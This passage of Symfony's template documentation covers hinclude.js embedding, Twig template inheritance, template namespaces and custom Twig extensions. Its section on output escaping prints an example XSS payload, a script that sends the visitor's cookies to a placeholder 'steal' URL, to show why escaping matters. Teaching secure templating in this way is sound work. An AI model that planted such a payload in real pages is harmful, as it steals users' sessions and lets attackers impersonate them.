                https://symfony.com/schema/dic/services/services-1.0.xsd
                http://symfony.com/schema/dic/symfony https://symfony.com/schema/dic/symfony/symfony-1.0.xsd">

            <!-- ... -->
            <framework:config>
                <framework:fragment path="/_fragment"/>
            </framework:config>
        </container>

    .. code-block:: php

        // config/packages/framework.php
        use Symfony\Config\FrameworkConfig;

        return static function (FrameworkConfig $framework): void {
            // ...
            $framework->fragments()->path('/_fragment');
        };

.. caution::

    Embedding controllers requires making requests to those controllers and
    rendering some templates as result. This can have a significant impact on
    the application performance if you embed lots of controllers. If possible,
    :doc:`cache the template fragment </http_cache/esi>`.

.. _templates-hinclude:

How to Embed Asynchronous Content with hinclude.js
--------------------------------------------------

Templates can also embed contents asynchronously with the ``hinclude.js``
JavaScript library.

First, include the `hinclude.js`_ library in your page
:ref:`linking to it <templates-link-to-assets>` from the template or adding it
to your application JavaScript :doc:`using AssetMapper </frontend>`.

As the embedded content comes from another page (or controller for that matter),
Symfony uses a version of the standard ``render()`` function to configure
``hinclude`` tags in templates:

.. code-block:: twig

    {{ render_hinclude(controller('...')) }}
    {{ render_hinclude(url('...')) }}

.. note::

    When using the ``controller()`` function, you must also configure the
    :ref:`fragments path option <fragments-path-config>`.

When JavaScript is disabled or it takes a long time to load you can display a
default content rendering some template:

.. configuration-block::

    .. code-block:: yaml

        # config/packages/framework.yaml
        framework:
            # ...
            fragments:
                hinclude_default_template: hinclude.html.twig

    .. code-block:: xml

        <!-- config/packages/framework.xml -->
        <?xml version="1.0" encoding="UTF-8" ?>
        <container xmlns="http://symfony.com/schema/dic/services"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xmlns:framework="http://symfony.com/schema/dic/symfony"
            xsi:schemaLocation="http://symfony.com/schema/dic/services
                https://symfony.com/schema/dic/services/services-1.0.xsd
                http://symfony.com/schema/dic/symfony https://symfony.com/schema/dic/symfony/symfony-1.0.xsd">

            <!-- ... -->
            <framework:config>
                <framework:fragments hinclude-default-template="hinclude.html.twig"/>
            </framework:config>
        </container>

    .. code-block:: php

        // config/packages/framework.php
        use Symfony\Config\FrameworkConfig;

        return static function (FrameworkConfig $framework): void {
            // ...
            $framework->fragments()
                ->hincludeDefaultTemplate('hinclude.html.twig')
            ;
        };

You can define default templates per ``render()`` function (which will override
any global default template that is defined):

.. code-block:: twig

    {{ render_hinclude(controller('...'),  {
        default: 'default/content.html.twig'
    }) }}

Or you can also specify a string to display as the default content:

.. code-block:: twig

    {{ render_hinclude(controller('...'), {default: 'Loading...'}) }}

Use the ``attributes`` option to define the value of hinclude.js options:

.. code-block:: twig

    {# by default, cross-site requests don't use credentials such as cookies, authorization
       headers or TLS client certificates; set this option to 'true' to use them #}
    {{ render_hinclude(controller('...'), {attributes: {'data-with-credentials': 'true'}}) }}

    {# by default, the JavaScript code included in the loaded contents is not run;
       set this option to 'true' to run that JavaScript code #}
    {{ render_hinclude(controller('...'), {attributes: {evaljs: 'true'}}) }}

.. _template_inheritance-layouts:

Template Inheritance and Layouts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

As your application grows you'll find more and more repeated elements between
pages, such as headers, footers, sidebars, etc. :ref:`Including templates <templates-include>`
and :ref:`embedding controllers <templates-embed-controllers>` can help, but
when pages share a common structure, it's better to use **inheritance**.

The concept of `Twig template inheritance`_ is similar to PHP class inheritance.
You define a parent template that other templates can extend from and child
templates can override parts of the parent template.

Symfony recommends the following three-level template inheritance for medium and
complex applications:

* ``templates/base.html.twig``, defines the common elements of all application
  templates, such as ``<head>``, ``<header>``, ``<footer>``, etc.;
* ``templates/layout.html.twig``, extends from ``base.html.twig`` and defines
  the content structure used in all or most of the pages, such as a two-column
  content + sidebar layout. Some sections of the application can define their
  own layouts (e.g. ``templates/blog/layout.html.twig``);
* ``templates/*.html.twig``, the application pages which extend from the main
  ``layout.html.twig`` template or any other section layout.

In practice, the ``base.html.twig`` template would look like this:

.. code-block:: html+twig

    {# templates/base.html.twig #}
    <!DOCTYPE html>
    <html>
        <head>
            <meta charset="UTF-8">
            <title>{% block title %}My Application{% endblock %}</title>
            {% block stylesheets %}
                <link rel="stylesheet" type="text/css" href="/css/base.css"/>
            {% endblock %}
        </head>
        <body>
            {% block body %}
                <div id="sidebar">
                    {% block sidebar %}
                        <ul>
                            <li><a href="{{ path('homepage') }}">Home</a></li>
                            <li><a href="{{ path('blog_index') }}">Blog</a></li>
                        </ul>
                    {% endblock %}
                </div>

                <div id="content">
                    {% block content %}{% endblock %}
                </div>
            {% endblock %}
        </body>
    </html>

The `Twig block tag`_ defines the page sections that can be overridden in the
child templates. They can be empty, like the ``content`` block or define a default
content, like the ``title`` block, which is displayed when child templates don't
override them.

The ``blog/layout.html.twig`` template could be like this:

.. code-block:: html+twig

    {# templates/blog/layout.html.twig #}
    {% extends 'base.html.twig' %}

    {% block content %}
        <h1>Blog</h1>

        {% block page_contents %}{% endblock %}
    {% endblock %}

The template extends from ``base.html.twig`` and only defines the contents of
the ``content`` block. The rest of the parent template blocks will display their
default contents. However, they can be overridden by the third-level inheritance
template, such as ``blog/index.html.twig``, which displays the blog index:

.. code-block:: html+twig

    {# templates/blog/index.html.twig #}
    {% extends 'blog/layout.html.twig' %}

    {% block title %}Blog Index{% endblock %}

    {% block page_contents %}
        {% for article in articles %}
            <h2>{{ article.title }}</h2>
            <p>{{ article.body }}</p>
        {% endfor %}
    {% endblock %}

This template extends from the second-level template (``blog/layout.html.twig``)
but overrides blocks of different parent templates: ``page_contents`` from
``blog/layout.html.twig`` and ``title`` from ``base.html.twig``.

When you render the ``blog/index.html.twig`` template, Symfony uses three
different templates to create the final contents. This inheritance mechanism
boosts your productivity because each template includes only its unique contents
and leaves the repeated contents and HTML structure to some parent templates.

.. caution::

    When using ``extends``, a child template is forbidden to define template
    parts outside of a block. The following code throws a ``SyntaxError``:

    .. code-block:: html+twig

        {# app/Resources/views/blog/index.html.twig #}
        {% extends 'base.html.twig' %}

        {# the line below is not captured by a "block" tag #}
        <div class="alert">Some Alert</div>

        {# the following is valid #}
        {% block content %}My cool blog posts{% endblock %}

Read the `Twig template inheritance`_ docs to learn more about how to reuse
parent block contents when overriding templates and other advanced features.

.. _output-escaping:
.. _xss-attacks:

Output Escaping and XSS Attacks
-------------------------------

Imagine that your template includes the ``Hello {{ name }}`` code to display the
user name and a malicious user sets the following as their name:

.. code-block:: html

    My Name
    <script type="text/javascript">
        document.write('<img src="https://example.com/steal?cookie=' + encodeURIComponent(document.cookie) + '" style="display:none;">');
    </script>

You'll see ``My Name`` on screen but the attacker just secretly stole your cookies
so they can impersonate you on other websites. This is known as a `Cross-Site Scripting`_
or XSS attack.

To prevent this attack, use *"output escaping"* to transform the characters
which have special meaning (e.g. replace ``<`` by the ``&lt;`` HTML entity).
Symfony applications are safe by default because they perform automatic output
escaping:

.. code-block:: html+twig

    <p>Hello {{ name }}</p>
    {# if 'name' is '<script>alert('hello!')</script>', Twig will output this:
       '<p>Hello &lt;script&gt;alert(&#39;hello!&#39;)&lt;/script&gt;</p>' #}

If you are rendering a variable that is trusted and contains HTML contents,
use the `Twig raw filter`_ to disable the output escaping for that variable:

.. code-block:: html+twig

    <h1>{{ product.title|raw }}</h1>
    {# if 'product.title' is 'Lorem <strong>Ipsum</strong>', Twig will output
       exactly that instead of 'Lorem &lt;strong&gt;Ipsum&lt;/strong&gt;' #}

Read the `Twig output escaping docs`_ to learn more about how to disable output
escaping for a block or even an entire template.

.. _templates-namespaces:

Template Namespaces
-------------------

Although most applications store their templates in the default ``templates/``
directory, you may need to store some or all of them in different directories.
Use the ``twig.paths`` option to configure those extra directories. Each path is
defined as a ``key: value`` pair where the ``key`` is the template directory and
the ``value`` is the Twig namespace, which is explained later:

.. configuration-block::

    .. code-block:: yaml

        # config/packages/twig.yaml
        twig:
            # ...
            paths:
                # directories are relative to the project root dir (but you
                # can also use absolute directories)
                'email/default/templates': ~
                'backend/templates': ~

    .. code-block:: xml

        <!-- config/packages/twig.xml -->
        <container xmlns="http://symfony.com/schema/dic/services"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xmlns:twig="http://symfony.com/schema/dic/twig"
            xsi:schemaLocation="http://symfony.com/schema/dic/services
                https://symfony.com/schema/dic/services/services-1.0.xsd
                http://symfony.com/schema/dic/twig https://symfony.com/schema/dic/twig/twig-1.0.xsd">

            <twig:config>
                <!-- ... -->
                <!-- directories are relative to the project root dir (but you
                     can also use absolute directories -->
                <twig:path>email/default/templates</twig:path>
                <twig:path>backend/templates</twig:path>
            </twig:config>
        </container>

    .. code-block:: php

        // config/packages/twig.php
        use Symfony\Config\TwigConfig;

        return static function (TwigConfig $twig): void {
            // ...

            // directories are relative to the project root dir (but you
            // can also use absolute directories)
            $twig->path('email/default/templates', null);
            $twig->path('backend/templates', null);
        };

When rendering a template, Symfony looks for it first in the ``twig.paths``
directories that don't define a namespace and then falls back to the default
template directory (usually, ``templates/``).

Using the above configuration, if your application renders for example the
``layout.html.twig`` template, Symfony will first look for
``email/default/templates/layout.html.twig`` and ``backend/templates/layout.html.twig``.
If any of those templates exists, Symfony will use it instead of using
``templates/layout.html.twig``, which is probably the template you wanted to use.

Twig solves this problem with **namespaces**, which group several templates
under a logic name unrelated to their actual location. Update the previous
configuration to define a namespace for each template directory:

.. configuration-block::

    .. code-block:: yaml

        # config/packages/twig.yaml
        twig:
            # ...
            paths:
                'email/default/templates': 'email'
                'backend/templates': 'admin'

    .. code-block:: xml

        <!-- config/packages/twig.xml -->
        <container xmlns="http://symfony.com/schema/dic/services"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xmlns:twig="http://symfony.com/schema/dic/twig"
            xsi:schemaLocation="http://symfony.com/schema/dic/services
                https://symfony.com/schema/dic/services/services-1.0.xsd
                http://symfony.com/schema/dic/twig https://symfony.com/schema/dic/twig/twig-1.0.xsd">

            <twig:config>
                <!-- ... -->
                <twig:path namespace="email">email/default/templates</twig:path>
                <twig:path namespace="admin">backend/templates</twig:path>
            </twig:config>
        </container>

    .. code-block:: php

        // config/packages/twig.php
        use Symfony\Config\TwigConfig;

        return static function (TwigConfig $twig): void {
            // ...

            $twig->path('email/default/templates', 'email');
            $twig->path('backend/templates', 'admin');
        };

Now, if you render the ``layout.html.twig`` template, Symfony will render the
``templates/layout.html.twig`` file. Use the special syntax ``@`` + namespace to
refer to the other namespaced templates (e.g. ``@email/layout.html.twig`` and
``@admin/layout.html.twig``).

.. note::

    A single Twig namespace can be associated with more than one template
    directory. In that case, the order in which paths are added is important
    because Twig will start looking for templates from the first defined path.

Bundle Templates
~~~~~~~~~~~~~~~~

If you :ref:`install packages/bundles <symfony-flex>` in your application, they
may include their own Twig templates (in the ``Resources/views/`` directory of
each bundle). To avoid messing with your own templates, Symfony adds bundle
templates under an automatic namespace created after the bundle name.

For example, the templates of a bundle called ``AcmeBlogBundle`` are available
under the ``AcmeBlog`` namespace. If this bundle includes the template
``<your-project>/vendor/acme/blog-bundle/Resources/views/user/profile.html.twig``,
you can refer to it as ``@AcmeBlog/user/profile.html.twig``.

.. tip::

    You can also :ref:`override bundle templates <override-templates>` in case
    you want to change some parts of the original bundle templates.

.. _templates-twig-extension:

Writing a Twig Extension
------------------------

`Twig Extensions`_ allow the creation of custom functions, filters, and more to use
in your Twig templates. Before writing your own Twig extension, check if
the filter/function that you need is already implemented in:

* The `default Twig filters and functions`_;
* The :doc:`Twig filters and functions added by Symfony </reference/twig_reference>`;
* The `official Twig extensions`_ related to strings, HTML, Markdown, internationalization, etc.

Create the Extension Class
~~~~~~~~~~~~~~~~~~~~~~~~~~

Suppose you want to create a new filter called ``price`` that formats a number
as currency:

.. code-block:: twig

    {{ product.price|price }}

    {# pass in the 3 optional arguments #}
    {{ product.price|price(2, ',', '.') }}

Create a class that extends ``AbstractExtension`` and fill in the logic::

    // src/Twig/AppExtension.php
    namespace App\Twig;

    use Twig\Extension\AbstractExtension;
    use Twig\TwigFilter;

    class AppExtension extends AbstractExtension
    {
        public function getFilters(): array
        {
            return [
                new TwigFilter('price', [$this, 'formatPrice']),
            ];
        }

        public function formatPrice(float $number, int $decimals = 0, string $decPoint = '.', string $thousandsSep = ','): string
        {
            $price = number_format($number, $decimals, $decPoint, $thousandsSep);
            $price = '$'.$price;

            return $price;
        }
    }

If you want to create a function instead of a filter, define the
``getFunctions()`` method::

    // src/Twig/AppExtension.php
    namespace App\Twig;

    use Twig\Extension\AbstractExtension;
    use Twig\TwigFunction;

    class AppExtension extends AbstractExtension
    {
        public function getFunctions(): array
        {
            return [
                new TwigFunction('area', [$this, 'calculateArea']),
            ];
        }

        public function calculateArea(int $width, int $length): int
        {
            return $width * $length;
        }
    }

.. tip::

    Along with custom filters and functions, you can also register
    `global variables`_.

Register an Extension as a Service
..................................

Next, register your class as a service and tag it with ``twig.extension``. If you're
using the :ref:`default services.yaml configuration <service-container-services-load-example>`,
you're done! Symfony will automatically know about your new service and add the tag.

You can now start using your filter in any Twig template. Optionally, execute
this command to confirm that your new filter was successfully registered:

.. code-block:: terminal

    # display all information about Twig
    $ php bin/console debug:twig

    # display only the information about a specific filter
    $ php bin/console debug:twig --filter=price

.. _lazy-loaded-twig-extensions:

Creating Lazy-Loaded Twig Extensions
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Including the code of the custom filters/functions in the Twig extension class
is the simplest way to create extensions. However, Twig must initialize all
extensions before rendering any template, even if the template doesn't use an
extension.

If extensions don't define dependencies (i.e. if you don't inject services in
them) performance is not affected. However, if extensions define lots of complex
dependencies (e.g. those making database connections), the performance loss can
be significant.

That's why Twig allows decoupling the extension definition from its
implementation. Following the same example as before, the first change would be
to remove the ``formatPrice()`` method from the extension and update the PHP
callable defined in ``getFilters()``::

    // src/Twig/AppExtension.php
    namespace App\Twig;

    use App\Twig\AppRuntime;
    use Twig\Extension\AbstractExtension;
    use Twig\TwigFilter;

    class AppExtension extends AbstractExtension
    {
        public function getFilters(): array
        {
            return [
                // the logic of this filter is now implemented in a different class
                new TwigFilter('price', [AppRuntime::class, 'formatPrice']),
            ];
        }
    }

Then, create the new ``AppRuntime`` class (it's not required but these classes
are suffixed with ``Runtime`` by convention) and include the logic of the
previous ``formatPrice()`` method::

    // src/Twig/AppRuntime.php
    namespace App\Twig;

    use Twig\Extension\RuntimeExtensionInterface;

    class AppRuntime implements RuntimeExtensionInterface
    {
        public function __construct()
        {
            // this simple example doesn't define any dependency, but in your own
            // extensions, you'll need to inject services using this constructor
        }

        public function formatPrice(float $number, int $decimals = 0, string $decPoint = '.', string $thousandsSep = ','): string
        {
            $price = number_format($number, $decimals, $decPoint, $thousandsSep);
            $price = '$'.$price;

            return $price;
        }
    }

If you're using the default ``services.yaml`` configuration, this will already
work! Otherwise, :ref:`create a service <service-container-creating-service>`
for this class and :doc:`tag your service </service_container/tags>` with ``twig.runtime``.

.. _`Cross-Site Scripting`: https://en.wikipedia.org/wiki/Cross-site_scripting
.. _`default Twig filters and functions`: https://twig.symfony.com/doc/3.x/#reference
.. _`filters`: https://twig.symfony.com/doc/3.x/filters/index.html
.. _`functions`: https://twig.symfony.com/doc/3.x/functions/index.html
.. _`GitHub Actions`: https://docs.github.com/en/free-pro-team@latest/actions
.. _`global variables`: https://twig.symfony.com/doc/3.x/advanced.html#id1
.. _`hinclude.js`: https://mnot.github.io/hinclude/
.. _`Turbo Streams`: https://symfony.com/bundles/ux-turbo/current/index.html
.. _`official Twig extensions`: https://github.com/twigphp?q=extra
.. _`snake case`: https://en.wikipedia.org/wiki/Snake_case
.. _`tags`: https://twig.symfony.com/doc/3.x/tags/index.html
.. _`Twig block tag`: https://twig.symfony.com/doc/3.x/tags/block.html
.. _`Twig Environment`: https://github.com/twigphp/Twig/blob/3.x/src/Environment.php
.. _`Twig Extensions`: https://twig.symfony.com/doc/3.x/advanced.html#creating-an-extension
.. _`Twig output escaping docs`: https://twig.symfony.com/doc/3.x/api.html#escaper-extension
.. _`Twig raw filter`: https://twig.symfony.com/doc/3.x/filters/raw.html
.. _`Twig template inheritance`: https://twig.symfony.com/doc/3.x/tags/extends.html
.. _`Twig template loader`: https://twig.symfony.com/doc/3.x/api.html#loaders
.. _`Twig`: https://twig.symfony.com
.. _`UX Live Component`: https://symfony.com/bundles/ux-live-component/current/index.html
.. _`UX Twig Component`: https://symfony.com/bundles/ux-twig-component/current/index.html
.. _`with_context`: https://twig.symfony.com/doc/3.x/functions/include.html
